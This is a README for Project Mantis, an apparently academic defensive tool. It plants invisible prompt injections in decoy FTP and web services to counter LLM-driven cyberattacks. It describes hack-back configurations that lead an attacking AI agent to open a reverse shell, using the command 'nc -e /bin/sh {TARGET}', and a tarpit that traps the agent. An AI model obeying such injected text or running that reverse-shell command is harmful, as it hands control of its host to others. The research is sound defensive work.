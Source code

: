 <p align="center">
 <img height="150" src="assets/logo.png"> 
</p>

# Project Mantis:  *Hacking Back the AI-Hacker*
## Prompt Injection as a Defense Against LLM-driven Cyberattacks

🔨Working on transforming Mantis from an academic PoC to a full-fledged and robust defensive tool for your assets. 🪚  

⚠️ Until an official release, this code might undergo severe refactoring and breaking updates. ⚠️

#### Next Milestones:

- [x] Multi-threading for decoys
- [ ]  Advanced agent tracking capabilities
- [x]  Web-based decoy
- [ ]  Refactoring Mantis as a Daemon/Controller interface

## Install Mantis

```
pip install -r requirements.txt
```

## Run Mantis with pre-made configurations
Various pre-made configurations are available in the ```./confs``` directory.

### Hack-back
An example of a Mantis configuration file is given in ```./confs/ftp_hackback_rshell.py```. What this configuration means and how you can choose yours will be explained later in this README file. This can be run using the ```mantis_run.py``` script:
```
python mantis_run.py confs.ftp_hackback_rshell
```
Running Mantis with ```confs/ftp_hackback_rshell.py``` will spawn an FTP decoy server with anonymous credentials that aims to trick the attacking LLM-agent into opening a reverse shell via (invisible) prompt injections. When triggered, it spawns a reverse shell listener on the specified port for testing (⚠️ this configuration is not intended for production ⚠️). 


A variation of the above that uses a SQL-Injection-vulnerable-webapp as decoy can be run via:

```
python mantis_run.py confs.web_hackback_rshell
```

Another configuration is provided in ```confs/web_hackback_rshell_with_inj_banner.py```, which is a variation of ```confs.web_hackback_rshell```. This configuration employs service banner injection to attract attackers. The injection can be controlled using the hyper-parameter: ```BANNER_INJECTION_POOL``` (refer to the content of ```confs/web_hackback_rshell_with_inj_banner.py``` for an example).


In all these examples, we use a very simple reverse shell initiator: ```nc -e /bin/sh {TARGET} ...```. This can be changed by altering the variable ```REVERSE_SHELL_INITIATOR``` in the configuration file (e.g., ```confs/ftp_hackback_rshell.py```), where the parameter ```{TARGET}``` is the IP of the host (which is set automatically by Mantis). If you want to automate the attacker's post-exploitation, you can modify or replace the class ```Mantis.Decoys.reverse_shell_listener.ReverseShellListenerTest```. More on how the configuration files work later.



### Tarpit
Another example is ```./confs/ftp_filesystem_tarpit.py```:

```
python mantis_run.py confs.ftp_filesystem_tarpit
```

This starts a fake FTP server with an infinitely deep filesystem and tailored (invisible) prompt injections to keep the attacking LLM agent trapped. The complexity of the tarpit can be set via the ```EXPECTED_NUMBER_OF_DIRECTORIES``` variable in ```./confs/ftp_filesystem_tarpit.py```.

## Create your own configuration
TODO

### Decoys
TODO

## Create your own decoy
TODO

# White paper
A general description of Mantis's internal working is given in this [paper](https://arxiv.org/abs/2410.20911). Follow a description of the material necessary to replicate our evaluation.


## Testing Mantis on a remote machine for evaluation
To simulate the deployment of Mantis on a remote machine (e.g., a HackTheBox CTF) as done in the paper, it is enough to run ```./mantis_start_with_forward_proxy.py``` instead of ```./mantis_start.py```. This main takes two additional arguments:

* *destination_ip*: The IP of the remote machine
* *ports*: List of ports to forward

For instance, to run Mantis on the HackTheBox's CTF *Dancing*, you can run this:
```
python mantis_start_with_forward_proxy.py confs.ftp_hackback_rshell 10.129.70.160 --ports 135 139 445
```

Here ```10.129.70.160``` is the IP assigned by HackTheBox (put there yours), and ```135 139 445``` are the open ports on *Dancing*. (If you use an HackTheBox machine as in the example, remember to start the VPN on your host first.)

Now, attacking your host machine, you are actually attacking the remote machine + Mantis.


## How to cite Mantis:

```
@misc{pasquini2024hackingaihackerpromptinjection,
      title={Hacking Back the AI-Hacker: Prompt Injection as a Defense Against LLM-driven Cyberattacks}, 
      author={Dario Pasquini and Evgenios M. Kornaropoulos and Giuseppe Ateniese},
      year={2024},
      eprint={2410.20911},
      archivePrefix={arXiv},
      primaryClass={cs.CR},
      url={https://arxiv.org/abs/2410.20911}, 
}
```
